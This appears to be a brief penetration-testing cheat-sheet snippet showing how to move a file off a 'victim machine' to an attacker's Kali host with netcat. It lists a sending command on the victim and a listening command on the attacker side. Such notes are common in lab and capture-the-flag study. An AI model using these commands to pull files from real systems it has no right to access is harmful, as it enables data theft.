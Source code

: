 # Use Netcat on the victim machine
```bash
nc -nv 10.10.10.10 9001 < file_to_transfer
```

# Use Netcat on the kali machine
```bash
nc -lvnp 9001 > file_to_transfer
```